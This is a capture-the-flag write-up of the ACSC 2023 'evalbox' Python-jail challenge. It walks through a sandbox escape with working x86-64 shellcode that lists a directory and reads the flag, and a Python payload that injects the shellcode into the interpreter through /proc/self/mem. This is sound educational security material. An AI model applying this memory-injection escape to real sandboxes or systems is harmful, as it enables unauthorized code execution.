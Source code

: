 ```yaml
---
title: "evalbox - pyjail writeup"
date: 2023-08-19
draft: false
difficulty: intermediate
event: ACSC 2023
tags: ["pyjail", "pwn"]
---
```


This was a particularly unique and well-designed PyJail challenge featured in the Asian Cyber Security Challenge. Although I solved it during the contest using an unintended method.
<!--more-->
I later came across a writeup by ptr-yudai (an incredible pwner, someone I really aspire to be like!). Below are the notes I made while going through his insightful writeup.


## Part 1: Getting the Name of the File

In this challenge, we needed to find the file's name along with the full path, as the flag file had a randomized name.

### openat System Call:
The `openat` syscall allows us to open files within a directory by specifying the directory file descriptor and a relative path.

```c
int openat(int dirfd, const char *pathname, int flags);
```

- We set the path as `/home/ctf`, and `AT_FDCWD` is set in `dirfd` to indicate that the pathname is relative.
- `openat` syscall breakdown:
  - `rdi`: first argument - `AT_FDCWD` (`-100`).
  - `rsi`: pointer to the path (e.g., `/home/ctf`).
  - `rdx`: flags (set to `0` for read-only).
  - `rax`: syscall number (257).

### getdents System Call:
This syscall reads directory entries, such as filenames, from an open directory.

```c
int getdents(unsigned int fd, struct linux_dirent *dirp, unsigned int count);
```

- It retrieves a series of `linux_dirent` structures, each containing metadata about files within the directory, like the inode number, offset, and filename.

```c
struct linux_dirent {
    unsigned long  d_ino;     /* Inode number */
    unsigned long  d_off;     /* Offset to next linux_dirent */
    unsigned short d_reclen;  /* Length of this linux_dirent */
    char           d_name[];  /* Filename (null-terminated) */
    char           pad;       /* Zero padding byte */
    char           d_type;    /* File type (since Linux 2.6.4) */
};
```

- `getdents` syscall breakdown:
  - `rdi`: file descriptor returned by the `openat` syscall.
  - `rsi`: buffer (address of the directory entries).
  - `rdx`: buffer size (`0x1000`).
  - `rax`: syscall number (78).

### Recursive Code to Print Directory Entries:
The following code iterates through the `linux_dirent` structures, printing out each filename in the directory.

```asm
r15 = rax          ; number of bytes read.
r14 = 0            ; initialize index to 0.
edx = 0            ; reset edx.

lp:
    write(1, rsp + r14 + 18, 20)    ; print the filename.
    write(newline)                  ; add newline.

    dx = *(rsp + r14 + 16)          ; get the record length.
    add r14d, edx                   ; move to the next record.
    cmp r14, r15                    ; compare index with total bytes read.
    jl lp                           ; loop until all records are printed.

    exit()                          ; exit after printing all filenames.
```

This code loops through the directory entries and prints the filenames, allowing us to identify the randomly named flag file.

## Part 2: Injecting Shellcode via Memory Manipulation

The next step involves executing arbitrary code by injecting shellcode into memory using file descriptors mapped to the process's memory.

### Virtual Memory Manipulation:
We leverage the `/proc/` filesystem, which provides access to the kernel's view of the current process, including memory mappings and the process's memory itself.

- `/proc/self/maps`: Provides the memory mappings of the current process.
- `/proc/self/mem`: Allows direct access to the memory of the current process.

### Python Code for Shellcode Injection:

```python
code = f"""
all(map(
    lambda fs: [
        fs[1].seek(int(fs[0].read(12), 16) + 0x18ebb8, 0),
        fs[1].write({shellcode}),
        fs[1].flush(),
        input()
    ],
    [(open("/proc/self/maps"), open("/proc/self/mem", "wb"))]
))
""".replace("\n", "")
```

### Breakdown:
1. **Get the memory mapping**: The code reads the first address from `/proc/self/maps`, which gives the base address of the memory region.
2. **Seek to a target offset**: It seeks to a specific offset (calculated as `0x18ebb8` from the base address), which is somewhere in the `_Py_read` function.
3. **Write shellcode**: The shellcode is injected into the memory at the calculated offset.
4. **Flush changes**: The memory is flushed to ensure that the shellcode is written.
5. **Trigger shell execution**: The shellcode gets executed when the process calls the read function.

## Part 3: Extracting the Flag
In the final part, the flag file can be accessed using standard file operations. Since the flag filename is randomized, the steps involve:
- **Opening the file**: Using the `open` syscall to open the flag file.
- **Reading the flag**: Reading the contents of the flag file.
- **Printing the flag**: Outputting the flag, which reveals the solution.

```bash
open("flag-[random-md5].txt", O_RDONLY)
read(fd, buffer, size)
write(1, buffer, size)
```

## Part 1 Assembly code
```asm
[BITS 64]
global main

section .text
main: 
	;openat(AT_FDCWD, "/", O_RDONLY)
	mov edx, 0
	lea rsi, [rel s_root]
	mov rdi, -100
	mov eax, 257
	syscall

	;getdents(fd, dirent, 0x1000)
	mov rdi, rax
	mov rsi, rsp
	mov rdx, 0x1000
	mov rax, 78
	syscall

	mov r15, rax

	xor r14, r14
	xor edx, edx
	jmp rec 

rec:
	mov dx, [rsp+r14+16] ; rsp is our dirent
	sub edx, 20
	lea rsi, [rsp+r14+18]
	mov edi, 1
	mov eax, 1
	syscall

	mov edx, 1
	lea rsi, [rel s_newline]
	mov edi, 1
	mov eax, 1
	syscall

	mov dx, [rsp+r14+16]
	add r14d, edx
	cmp r14, r15
	jl rec

	xor edi, edi
	mov eax, 60
	syscall

section .data
	s_root: db "/home/ctf",0
	s_newline: db 0x0a
```

## Part 2 Assembly code
```asm
[BITS 64]
global main

section .text
main: 
    mov rax, 2
    lea rdi, [rel flag]
    mov rsi, 0
    mov rdx, 0
    syscall

    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    mov rax, 0
    syscall

    mov rdi, 1
    mov rsi, rsp
    mov rdx, 100
    mov rax, 1
    syscall

section .data
    flag: db "/home/ctf/flag-0479f1dcda629bbe833598bce876a647.txt", 0 
```

By following this process, we can successfully extract the flag and complete the challenge.
